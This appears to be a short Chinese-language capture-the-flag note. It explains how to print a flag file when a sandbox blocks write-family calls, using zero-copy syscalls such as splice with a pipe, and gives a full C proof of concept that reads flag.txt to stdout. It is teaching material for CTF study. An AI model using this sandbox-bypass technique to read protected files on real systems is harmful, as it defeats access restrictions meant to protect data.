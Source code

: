使用条件：

1. 禁用了所有的 write 相关函数
2. 至少能使用 open 或 openat 打开文件
3. 程序没有关闭输出流

常见的零拷贝函数有 `sendfile`、`sendto`、`sendmsg`、`splice`，其中重点说一下 `splice`，这个函数的两端必须有一端是管道，不能全是文件描述符，因此必须和 `pipe` 配合。

poc 如下：

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <limits.h>

int main() {
    int file_fd;
    int pipe_fd[2];

    file_fd = open("flag.txt", O_RDONLY);

    if (pipe(pipe_fd) == -1) {
        close(file_fd);
        return 1;
    }

    // 第一次 splice: 从文件移动到管道的写入端
    // ssize_t splice(int fd_in, loff_t *off_in, int fd_out, loff_t *off_out, size_t len, unsigned int flags);
    if (splice(file_fd, NULL, pipe_fd[1], NULL, SSIZE_MAX, SPLICE_F_MOVE) == -1) {
        perror("[-] Error in first splice (file to pipe)");
        close(file_fd);
        close(pipe_fd[0]);
        close(pipe_fd[1]);
        return 1;
    }

    // 关闭写入端，否则第二次 splice 会一直阻塞等数据
    close(file_fd);
    close(pipe_fd[1]);

    // 第二次 splice: 从管道的读取端移动到标准输出
    if (splice(pipe_fd[0], NULL, STDOUT_FILENO, NULL, SSIZE_MAX, SPLICE_F_MOVE) == -1) {
        close(pipe_fd[0]);
        return 1;
    }

    close(pipe_fd[0]);
    return 0;
}
```